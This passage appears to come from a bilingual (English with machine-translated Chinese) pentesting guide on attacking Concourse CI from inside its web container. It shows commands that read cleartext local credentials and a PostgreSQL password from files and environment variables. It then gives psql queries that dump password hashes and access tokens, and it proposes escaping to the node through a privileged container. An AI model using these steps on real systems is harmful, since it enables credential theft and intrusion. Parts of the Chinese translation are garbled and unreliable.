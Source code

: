 即使Web容器有某些防御措施禁用了一些防御，它也没有作为普通特权容器**运行（例如，您**无法** ** **安装**和**功能**非常**有限** ** ，因此从容器中逃脱的所有简单方法都是没有用的）。

However, it stores **local credentials in clear text**:

但是，它在清晰的文本中存储**本地凭据**：

```bash
cat /concourse-auth/local-users
test:test

env | grep -i local_user
CONCOURSE_MAIN_TEAM_LOCAL_USER=test
CONCOURSE_ADD_LOCAL_USER=test:test
```

You cloud use that credentials to **login against the web server** and **create a privileged container and escape to the node**.

您可以使用该凭据来**登录Web服务器**，并且**创建一个特权容器，然后逃脱到节点**。

In the environment you can also find information to **access the postgresql** instance that concourse uses (address, **username**, **password** and database among other info):

在环境中，您还可以找到信息来访问大厅使用的postgresql **实例（地址，**用户名**，**密码**和数据库等其他信息）：

```bash
env | grep -i postg
CONCOURSE_RELEASE_POSTGRESQL_PORT_5432_TCP_ADDR=10.107.191.238
CONCOURSE_RELEASE_POSTGRESQL_PORT_5432_TCP_PORT=5432
CONCOURSE_RELEASE_POSTGRESQL_SERVICE_PORT_TCP_POSTGRESQL=5432
CONCOURSE_POSTGRES_USER=concourse
CONCOURSE_POSTGRES_DATABASE=concourse
CONCOURSE_POSTGRES_PASSWORD=concourse
[...]

# Access the postgresql db
psql -h 10.107.191.238 -U concourse -d concourse
select * from password; #Find hashed passwords
select * from access_tokens;
select * from auth_code;
select * from client;
select * from refresh_token;
select * from teams; #Change the permissions of the users in the teams
select * from users;
```

### Abusing Garden Service - Not a real Attack

###滥用花园服务 - 不是真正的攻击

{% hint style="warning" %}

{％提示样式=“警告”％}
This are just some interesting notes about the service, but because it's only listening on localhost, this notes won't present any impact we haven't already exploited before
